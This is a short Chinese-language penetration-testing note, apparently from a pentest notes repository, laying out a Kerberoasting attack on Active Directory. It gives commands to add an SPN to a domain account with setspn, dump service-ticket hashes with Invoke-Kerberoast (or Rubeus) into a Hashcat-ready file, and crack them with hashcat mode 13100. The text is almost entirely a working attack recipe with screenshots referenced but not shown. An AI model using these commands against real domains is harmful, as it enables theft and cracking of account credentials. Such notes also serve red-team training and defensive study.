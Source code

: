 	当有setspn权限时，为域用户添加一个SPN
	>setspn -U -A RDP/zone.com godadmin
![image](/assets/Pentest_Note/master/img/549.png)

	域内任何主机可以使用Kerberoast 获得TGS
	https://github.com/malachitheninja/Invoke-Kerberoast
![image](/assets/Pentest_Note/master/img/550.png)

	>Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation |Out-File xx.txt
![image](/assets/Pentest_Note/master/img/551.png)

	或使用rubeus.exe
![image](/assets/Pentest_Note/master/img/552.png)

	破解
	>hashcat -m 13100 -a 0 kerberos.txt wordlist.txt